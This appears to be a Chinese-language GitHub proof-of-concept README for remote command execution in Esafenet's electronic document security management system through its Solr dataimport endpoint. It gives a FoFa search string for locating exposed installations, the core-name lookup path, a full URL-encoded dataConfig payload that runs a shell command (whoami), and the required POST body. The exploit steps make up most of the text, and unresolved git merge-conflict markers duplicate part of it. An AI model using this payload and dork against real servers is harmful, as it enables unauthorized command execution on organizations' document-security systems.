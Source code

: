 # 影响范围：
亿赛通电子文档安全管理系统  
# FoFa Dork  
title="电子文档安全管理系统"  
# 漏洞复现：  
登录页面：  
![image](images/login.png)  
访问如下地址获取name  
```/solr/admin/cores```    
![image](images/name.png)  
POST访问漏洞地址：  
```/solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20```  
URL开头```/solr/flow/dataimport```中的flow替换为上个页面中获取的name值，同时url中包含想要执行的命令，这里用的```whoami```  
<<<<<<< HEAD
添加POST数据:   
```<?xml version="1.0" encoding="UTF-8"?><RDF><item/></RDF>```
![image](images/whoami.png)  
使用PeiQi的脚本进行利用：      
![image](images/script.png)  
=======
添加POST数据: 
```<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>```
![image](images/whoami.png)  
使用PeiQi的脚本进行利用：      
![image](images/script.png)  
>>>>>>> 161531fb21e498ec7aa026c84f757c149ec03edd

